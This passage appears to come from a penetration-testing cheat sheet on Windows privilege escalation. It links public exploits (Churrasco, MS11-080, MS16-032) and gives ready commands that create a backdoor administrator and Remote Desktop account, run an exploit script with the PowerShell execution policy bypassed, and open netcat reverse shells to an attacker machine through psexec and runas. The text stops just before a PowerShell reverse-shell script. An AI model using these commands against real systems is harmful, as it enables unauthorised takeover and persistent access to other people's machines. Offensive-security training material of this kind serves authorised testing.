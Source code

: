 -   Windows Server 2003 and IIS 6.0 privledge escalation using impersonation: 

      https://www.exploit-db.com/exploits/6705/
   
      https://github.com/Re4son/Churrasco
      
         c:\Inetpub>churrasco
         churrasco
         /churrasco/-->Usage: Churrasco.exe [-d] "command to run"

         c:\Inetpub>churrasco -d "net user /add <username> <password>"
         c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
         c:\Inetpub>churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"

-   Windows MS11-080 - http://www.exploit-db.com/exploits/18176/  
    
          python pyinstaller.py --onefile ms11-080.py  
          mx11-080.exe -O XP
    
-   Powershell Exploits - You may find that some Windows privledge escalation exploits are written in Powershell. You may not have an interactive shell that allows you to enter the powershell prompt.  Once the powershell script is uploaded to the server, here is a quick one liner to run a powershell command from a basic (cmd.exe) shell:

      MS16-032 https://www.exploit-db.com/exploits/39719/
      
      `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"`
      
    
-   Powershell Priv Escalation Tools
    https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

-   Windows Run As - Switching users in linux is trival with the `SU` command.  However, an equivalent command does not exist in Windows.  Here are 3 ways to run a command as a different user in Windows.

      -   Sysinternals psexec is a handy tool for running a command on a remote or local server as a specific user, given you have thier username and password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Psexec (on a 64 bit system).

               C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe" 

               PsExec v2.2 - Execute processes remotely
               Copyright (C) 2001-2016 Mark Russinovich
               Sysinternals - www.sysinternals.com

      -   Runas.exe is a handy windows tool that allows you to run a program as another user so long as you know thier password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Runas.exe:

               C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
               Enter the password for Test:
               Attempting to start nc.exe as user "COMPUTERNAME\Test" ...

      -   PowerShell can also be used to launch a process as another user. The following simple powershell script will run a reverse shell as the specified username and password.
